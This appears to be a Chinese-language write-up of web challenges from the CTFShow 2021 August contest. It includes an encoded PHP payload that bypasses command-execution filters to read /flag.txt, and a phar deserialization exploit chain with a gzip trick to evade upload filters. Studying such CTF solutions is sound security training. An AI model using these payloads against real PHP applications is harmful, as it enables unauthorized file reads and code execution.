 # 热身

```php
?num= 010574
```

参考web入门web95



# shellme

flag就在phpinfo中

# shellme_Revenge

基本上是之前比赛的原题了，参考我之前的文章：

https://blog.csdn.net/rfrder/article/details/119535886

phpinfo页面中有hint:?looklook，传一下得到源码，同样是这样限制的命令执行，直接打就行了。不过问题就是ban了所有的命令执行，发现`highlight_file`没办，读`/flag.txt`即可：

```php
http://b64ef862-f0ed-4c0f-b2c9-9e89d4cf6aca.challenge.ctf.show:8080/?0=highlight_file&1=/flag.txt

ctf_show=%24_%3DC%3B%2B%2B%24_%3B%24C%3D%2B%2B%24_%3B%2B%2B%24_%3B%24__%3D%2B%2B%24_%3B%24_%3D(C%2FC.C)%5B0%5D%3B%2B%2B%24_%3B%2B%2B%24_%3B%2B%2B%24_%3B%2B%2B%24_%3B%2B%2B%24_%3B%2B%2B%24_%3B%24_%3D_.%24__.%24C.%24_%3B%24%24_%5B0%5D(%24%24_%5B1%5D)%3B
```





# ATTup

最后能联想到虎符CTF2021线下的`tinypng`那题。

正常上传然后查询，f12可以得到源码：

```php
<?php

class View {
    public $fn;
    public function __invoke(){
        $text = base64_encode(file_get_contents($this->fn));
        echo "<script>alert('".$text."');self.location=document.referrer;</script>";
    }
}
class Fun{
    public $fun = ":)";
    public function __toString(){
        $fuc = $this->fun;
        $fuc();
        return "<script>alert('Be a happy string~');self.location=document.referrer;</script>";
    }
    public function __destruct()
    {
        echo "<script>alert('Just a fun ".$this->fun."');self.location=document.referrer;</script>";
    }
}
$filename = $_POST["file"];
$stat = @stat($filename);
```

很明显的`phar`反序列化，用`stat`触发：

```php
<?php
class View {
    public $fn;
}
class Fun{
    public $fun = ":)";
}
$a = new Fun();
$a->fun = new Fun();
$a->fun->fun = new View();
$a->fun->fun->fn = "/flag";


@unlink("phar.phar");
$phar = new Phar("phar.phar"); //后缀名必须为phar
$phar->startBuffering();
$phar->setStub("<?php __HALT_COMPILER(); ?>"); //设置stub
$phar->setMetadata($a); //将自定义的meta-data存入manifest
$phar->addFromString("test.txt", "test"); //添加要压缩的文件
//签名自动计算
$phar->stopBuffering();
?>
```

生成phar后直接改后缀为zip还是传不上去，怀疑和虎符那题的过滤差不多：

```php
if (preg_match("/<\?|php|HALT\_COMPILER/i", $content )){
    $error = 'Don\'t do that, please';
    return back()
}
```

用`gzip`或者`bzip2`压缩来绕过即可：

```shell
gzip phar.phar
```

产生phar.phar.gz，把后缀名改成zip然后上传，再post传参phar即可得到flag：

```php
file=phar://./phar.phar.zip
```



![image-20210814220010863](CTFShow2021八月赛Web.assets/image-20210814220010863.png)